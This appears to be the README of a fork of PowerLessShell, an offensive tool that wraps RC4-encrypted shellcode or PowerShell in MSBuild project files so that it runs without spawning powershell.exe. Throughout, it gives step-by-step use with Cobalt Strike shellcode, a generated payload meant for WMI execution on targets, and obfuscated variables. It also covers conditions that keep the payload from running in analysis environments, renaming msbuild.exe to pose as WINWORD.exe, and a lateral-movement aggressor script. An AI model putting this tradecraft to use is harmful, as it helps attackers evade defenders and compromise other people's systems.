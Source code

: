 # PowerLessShell

*PowerLessShell uses MSBuild.exe to execute PowerShell scripts and commands or raw shellcode without spawning powershell.exe.*

*This is a fork from https://github.com/Mr-Un1k0d3r/PowerLessShell. This fork contains documentation changes and payload and various functionality enhancements.*

### How it works

PowerLessShell reads in the desired input file, encrypts it with RC4 and then base64 encodes it. After this an msbuild project template is populated with the payload and key to decrypt it. The rest of the magic is taken care of by the csproj template created by [Mr-Un1k0d3r](https://github.com/Mr-Un1k0d3r/PowerLessShell) which uses MSBuild's capability of running inline tasks in build files to execute the necessary code. 

#### Templates

Templates are located in the repo under PowerLessShell/include:

- template-powershell.csproj
- template-shellcode.csproj

The script obfuscates variables from the template. Variables should be named with VAR + a number (i.e. "VAR1").



## Usage

### Example

Generate shellcode with Cobalt Strike, using `Attacks > Packages > Payload Generator` or for a stageless payload use `Attacks > Packages > Windows Executable (S)` select "Raw" and save the file somewhere convenient.

Alternatively you can supply an arbitrary PowerShell script to be run instead of shellcode. Generate or obtain these the usual ways.

```
$ python PowerLessShell.py


PowerLessShell - Remain Stealthu
         More PowerShell Less Powershell.exe - Mr.Un1k0d3r RingZer0 Team
            ___
        .-"; ! ;"-.
      .'!  : | :  !`.
     /\  ! : ! : !  /\
    /\ |  ! :|: !  | /\
   (  \ \ ; :!: ; / /  )
  ( `. \ | !:|:! | / .' )
  (`. \ \ \!:|:!/ / / .')
   \ `.`.\ |!|! |/,'.' /
    `._`.\\!!!// .'_.'
       `.`.\|//.'.'
        |`._`n'_.'|
        `----^----"


(Set payload type 'powershell, shellcode')>>> shellcode

(Path to the raw shellcode file)>>> shellcode.bin

(Path for the generated MsBuild out file)>>> payload.csproj

(Set USERDOMAIN condition (Default ''))>>> RingZer0

(Use known process name to perform MsBuild renaming (Default: False))>>>

[+] payload.csproj was generated.
[+] payload.csproj.cmd was generated.
[+] Run the command inside of payload.csproj.cmd on the target system using WMI.
```

**Notes:**
- In order to prevent the payload from running in an analysis environment the USERDOMAIN condition create a check to see if the user's domain matches the one provided before executing the payload. This is an optional parameter.
- Known process name will cause the msbuild.exe to be renamed to something like WINWORD.exe instead of a randomly generated string (see code for exact list of names).



## Screenshot

The following example is running the RC4 RAT https://github.com/Mr-Un1k0d3r/RC4-PowerShell-RAT without running a single instance of PowerShell

![PowerLessShell](https://ringzer0team.com/powershellless.png)



## MSBuild conditions

MSBuild conditions can be used to avoid running code in unintended (read: analysis) environments.

```
<Target Name="x" Condition="'$(USERDOMAIN)'=='RingZer0'">
```

The malicious code will only be executed if the current domain is "RingZer0"

Several conditions can be used to create more thorough execution check, for example:

```
<Target Name="x" Condition="'$(registry:HKEY_LOCAL_MACHINE\blah@blah)'>='0'">
```

See the following for more information:

- [MSBuild Conditions](https://msdn.microsoft.com/en-us/library/7szfhaft.aspx)
- [Property Functions](https://docs.microsoft.com/en-us/visualstudio/msbuild/property-functions).



## Cobalt Strike Aggressor script (wmi_msbuild.cna)

**By MrT-F**

cd into your cobalt strike client directory
```
cd /root/cobaltstrike
```
Clone this repository into folder PowerLessShell
```
git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git
```
Load the aggressor script in your Cobalt Strike Console
Laterally move just like other Cobalt Strike macros:
```
wmi_msbuild [target] [listener]
```



## Credit

Mr.Un1k0d3r RingZer0 Team 2017

